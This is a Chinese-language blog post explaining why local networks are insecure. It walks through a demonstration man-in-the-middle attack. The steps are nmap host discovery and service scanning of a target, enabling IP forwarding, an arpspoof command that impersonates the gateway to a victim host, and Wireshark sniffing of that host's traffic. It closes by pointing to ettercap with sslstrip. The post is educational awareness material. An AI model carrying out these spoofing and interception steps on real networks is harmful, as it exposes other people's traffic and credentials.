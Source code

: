 ```yaml
---
layout: post
title: 局域网为何如此不堪：演习一次内网攻击
category: safe
tags: [web安全,局域网安全,内网攻击]
sharing: true
comment: true
robot: index,follow
alias: 
published: true
highlight: yes
description: '当你在公司内网，或者是在家里或者咖啡馆连上了一个免费的AP，享受互联网冲浪无比畅快的同时，背后可能正有双眼睛在盯着这一切，你正在浏览某“门"的照片，某些敏感信息，甚至是你的银行卡等帐号信息...这到底是怎么回事？'
---
```


准备该文一段时间了，作为新博客上第一篇文章，甚是费心，待各种小伎俩融汇贯通，才敢来卖弄。如熟悉TCP/IP协议族，则阅读本文比较轻松，如不然则也无大恙，毕竟本文只是一篇比较浅薄的入门介绍。


## 局域网为何如此不堪

局域网简称LAN（Local Area Network），对应OSI七层模型的三层以下（一般不含第三层IP层)，两层交换机或者共享式集线器组网，该类设备一般不具有路由功能，故局域网内各节点间通过MAC地址（网卡物理地址）标识和通信，而MAC地址是由各个节点自行维护，这可能是局域网脆弱的根本因素。

局域网通信模型图示![LANArchModel][]

### 网络数据安全或许可分为两层

* 局域网链路安全(PATH)

链路即网络数据包经过路线，如果节点A的数据包经过了节点B，则认为是不安全情况，因为节点B可以对经过的数据包作抓包和分析，有泄露隐私的可能。交换型方式组网的局域网默认情况下是链路安全的，因为每个节点之间都是单独链路通信；共享式组网的局域网默认下就是链路不安全，因为该情况下数据包都通过广播方式发送，同网段内任一节点都可以收到包（需调整网络工作模式为混杂模式）。

* 局域网数据安全(DATA)

数据安全理解为数据包如果被别人获取，包含内容是否可被查看到，没有加密而明文传输的数据包都是非安全的。如SSl/STL是安全的，而HTTP数据包一般是非安全的。数据包与实现协议有关，与网络拓扑结构无关。


### 脆弱的地址解析协议
* 地址解析协议(ARP)，ARP(Address Resolution Protocol)，地址解析协议，当内网节点间（或者是节点与网关间）需要通信时，ARP解析获得目标IP地址对应的MAC地址，通过该MAC地址完成数据包发送。

* 域名解析系统(DNS)，互联网上的设备通过IP地址标识，全数子组成的标识不利于人类记忆和处理，域名的出现改变了这种状况，那么域名是如何对应的IP地址的呢，域名服务器（DNS服务器）就是来完成域名和IP地址的互相转换功能。

或许广域网可以看作是一个大局域网（如大中国局域网），其组织结构有类似，但也不同，广域网构建在IP协议之上，因此它的安全性相对更好，除非你是电信内部人士，可以通过控制骨干网关键网络设备，代表如上海有线通用户经常被运营商网页弹窗骚扰；或者你有特殊权限可以直接接触到国家骨干网设备，这些控制权普通用户一般很难获得。而在局域网中通过脆弱的ARP协议和DNS协议，你轻松就可以取得这些权限，局域网中典型的攻击模式大概是这样：

1. 第一步先攻击安全链路以获得数据包访问权，如通过ARP欺骗或者DNS欺骗方式改变正常数据包传输链路；

2. 第二步数据包协议分析，使用抓包软件抓取和分析数据包内容，通过数据包篡改等多种手段最终达成攻击目的。(A)


### WLAN
待补充...



## 几种利器

本演习系统环境如下：

	$ lsb_release -a
	Distributor ID:	Ubuntu
	Description:	Ubuntu 12.10
	Release:	12.10
	Codename:	quantal

在正式开始前，先介绍几个必备的工具。

### Wireshark(抓包利器)
[Wireshark][]（前称Ethereal）是一个网络封包分析软件。网络封包分析软件的功能是撷取网络封包，并尽可能显示出最为详细的网络封包资料。Windows下通过[Download](http://www.wireshark.org/download.html)页面下载安装即可，一般主流Linux发行版官方软件仓库已经集成该软件，可直接安装：

	$sudo apt-get install wireshark
默认wireshark运行需要root权限，忽略警告信息，选择对应的网络节点开始抓包，wireshark提供两种数据包过滤机制：

* 抓取时过滤规则，即不符合规则的包直接PASS不会抓取；详细规则使用参考[CaptureFilters][],下面规则的作用是仅显示由192.168.1.100发出或者发往192.168.1.100的http数据包。
	<pre>
	host 192.168.1.100 and port 80
	</pre>

* 显示时过滤规则，即所有通过指定节点的包都抓取，但仅在界面上显示符合规则的包，详细规则使用参考[DisplayFilters][]，下面规则的作用是仅显示由192.168.1.100发出或者发往192.168.1.100的http数据包。
	<pre>
	(http and ip.dst==192.168.1.100 ) or ( http and ip.src==192.168.1.100)
	</pre>

### Nmap（网络探测工具和安全/端口扫描器）
[Nmap][],Linux平台下历史悠久且功能强大的网络探测工具和安全扫描器，支持扫描指定网络内主机列表、扫描指定主机开放端口列表甚至探测出所安装操作系统类型。该工具系统默认集成（支持在线包管理器直接安装）。

### Arpspoof(ARP欺骗）
ARP欺骗工具，工作原理就是不断的向目标节点（攻击对象）发送ARP数据包，包内容为“我是XXX，请把发给XXX的数据包发给我”。安装方法：

	$sudo apt-get install dsniff

###  Ettercap(数据包嗅探和篡改)
[Ettercap][]，“中间人”攻击利器，详细使用方式参考手册（man ettercap)。

	$sudo apt-get install ettercap-graphical


## 局域网典型攻击演习
### 第1步：锁定目标
使用nmap命令扫描局域网，获得主机列表，操作如下：

	nmap -sP  192.168.1.0/24
* “-sP” 表示使用Ping方式扫描；
* “192.168.1.0/24”表示扫描"192.168.1.1-192.168.1.254"这个网段的所有机器。

nmap命令扫描结果仅供参考，也可以尝试其他参数扫描，详细使用方法参考[NmapManual][]。

### 第2步：收集信息
选定目标为主机A(这里假定IP地址为192.168.1.110)，使用命令"nmap 192.168.1.110"可获得主机A的详细情况，如服务端口开放情况，操作系统类型等信息。

        $nmap -A 192.168.1.110
        Starting Nmap 6.00 ( http://nmap.org ) at 2013-08-12 12:34 CST 
        Nmap scan report for 10.3.3.108
        Host is up (0.00026s latency).
        Not shown: 996 closed ports
        PORT    STATE SERVICE     VERSION
        22/tcp  open  ssh         OpenSSH 5.9p1 Debian 5ubuntu1.1 (protocol 2.0)
        ...
        139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
        445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
        873/tcp open  rsync       (protocol version 30) 
        Service Info: OS: Linux; CPE: cpe:/o:linux:kernel

### 第3步：开启IP转发和ARP欺骗
该步仅针对交换式局域网，共享式局域网可以忽略（共享式网络只要打开网卡的混杂模式就可以抓取所有内网数据包），ARP欺骗一般目的是把自己伪装成网关，但如果不作处理，当被欺骗数据包到达后就会被本机丢弃（因为自己到底不是网关，还不知道如何处理这类数据包），这当然是不允许的。开启IP转发功能可以解决该问题，IP转发负责把该类数据包再转发给真正的网关处理，开启IP转发的方法(注意使用root操作第二条命令）：

        $ sudo su
        # echo 1 > /proc/sys/net/ipv4/ip_forward
ARP欺骗使用arpspoof命令：

        $ sudo arpspoof -i eth0 -t 192.168.1.110 192.168.1.1
- "-i eth0"指定设备节点，无线网络时可能是"-i wlan0"；
- "-t 192.168.1.110"指定欺骗对象，如果不指定该项，则欺骗对象为整个网络（192.168.1.1-192.168.1.254)，"192.168.1.1"一般是网关地址。

上述命令的作用，不断的给欺骗对象主机发送ARP数据包，内容是告诉它我是”192.168.1.1“（网关），请把所有数据包都发给我。

### 第4步：抓数据包
使用wireshark工具抓取所有和主机A相关的数据包，过滤掉不相关数据包，只抓取主机A发出或者发给主机A的数据包。启动wireshark:
      
        $ sudo wireshark
选择对应网络设备节点（一般有线网络选择eth0,无线网络选择wlan0)，开始抓包，在Filter输入框输入显示过滤条件：

        ip.addr == 192.168.1.110
![wireshark_shop][]
回车后应该在屏幕上看到已抓取包的列表，现在你可以仍然调取和分析主机A上网流量情况。


### 第5步：实施攻击
ettercap是个强大的工具，再配合sslstrip，基本可以为所欲为。




[Wireshark]: http://www.wireshark.org/
[FilteringWhilegapturing]: http://www.wireshark.org/docs/wsug_html_chunked/ChCapCaptureFilterSection.html
[CaptureFilters]: http://wiki.wireshark.org/CaptureFilters
[DisplayFilters]: http://wiki.wireshark.org/DisplayFilters

[GAE]: https://developers.google.com/appengine/?hl=zh-cn
[WhatIsGAE]: https://developers.google.com/appengine/docs/whatisgoogleappengine?hl=zh-cn
[Goagent]: http://code.google.com/p/goagent/
[InstallGuide]: https://code.google.com/p/goagent/wiki/InstallGuide
[FAQ]: https://code.google.com/p/goagent/wiki/FAQ
[ConfigIntroduce]: https://code.google.com/p/goagent/wiki/ConfigIntroduce
[SwitchySharp]: https://code.google.com/p/switchysharp/
[SwitchySharp2]: https://chrome.google.com/webstore/detail/proxy-switchysharp/dpplabbmogkhghncfbfdeeokoefdjegm?hl=zh-CN
[Nmap]: http://nmap.org/man/zh/
[NmapManual]: http://nmap.org/man/zh/ 
[Ettercap]: http://ettercap.github.io/ettercap/index.html
